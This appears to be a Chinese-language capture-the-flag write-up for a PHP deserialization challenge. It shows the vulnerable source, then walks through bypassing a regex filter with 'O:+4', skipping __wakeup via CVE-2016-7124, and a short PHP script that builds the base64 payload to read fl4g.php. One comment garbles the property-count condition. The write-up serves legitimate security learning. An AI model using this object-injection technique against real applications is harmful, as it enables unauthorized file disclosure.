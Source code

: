 
> 
<h3>过程</h3>
flag在flag.php文件中


<pre><code>&lt;?php 
class Demo { 
    private $file = 'index.php';  
//类的私有变量
    public function __construct($file) { 
//实例化对象，__construct() 函数，当类新建对象的时候会执行
        $this-&gt;file = $file;   
//将对象的file属性的值设置为file变量
    }
    function __destruct() {  
//__destruct() 函数，当对象被销毁时将会被调用
        echo @highlight_file($this-&gt;file, true);  
//输出读取到的文件
//highlight_file() 函数，输出指定PHP文件代码
    }
    function __wakeup() {    
//__wakeup() 函数，在unserialize()反序列化操作前会被调用
        if ($this-&gt;file != 'index.php') { 
            //the secret is in the fl4g.php  
//将对象的file参数设置为index.php
            $this-&gt;file = 'index.php'; 
        } 
    } 
}
if (isset($_GET['var'])) { 
//get方法传参
    $var = base64_decode($_GET['var']);  
//对获取到的参数var的值进行base64解码
    if (preg_match('/[oc]:\d+:/i', $var)) {  
//preg_match() 函数一个正则表达，匹配上了就返回true， \d匹配任意的数字  /i表示匹配时不区分大小写 /[oc]匹配oc字符
        die('stop hacking!'); 
    } else {
        @unserialize($var); 
//unserialize() 函数用来反序列化字符串
    } 
} else { 
    highlight_file("index.php"); 
//highlight_file() 函数，输出指定PHP文件代码
} 
?&gt;</code></pre>
1、绕过base64_decode函数：对构造的语句进行base64编码
2、绕过preg_match函数：加个加号“+”，在反序列化串O（object）开头，
3、绕过wakeup函数：利用__wakeup()的CVE-2016-7124，在序列化的字符串当中当真实的属性个数大于真实的属性个数时，该函数不会执行
<hr/>
构造
<pre><code>&lt;?php
class Demo {     //定义Demo类
    private $file = 'fl4g.php';    //类的私有变量file为fl4g.php
}
$a = serialize(new Demo);//对其进行序列化操作
$a = str_replace('O:4', 'O:+4',$a);       //用+4替换4，绕过preg_match()函数的正则过滤
$a = str_replace(':1:', ':2:',$a);        //用2替换1，绕过__wakeup()函数，利用__wakeup()的CVE-2016-7124  在序列化的字符串当中当真实的属性个数大于真实的属性个数时  该函数不会执行
echo base64_encode($a);                   //进行base64编码，绕过解码函数
?&gt;</code></pre>
使用php在线运行
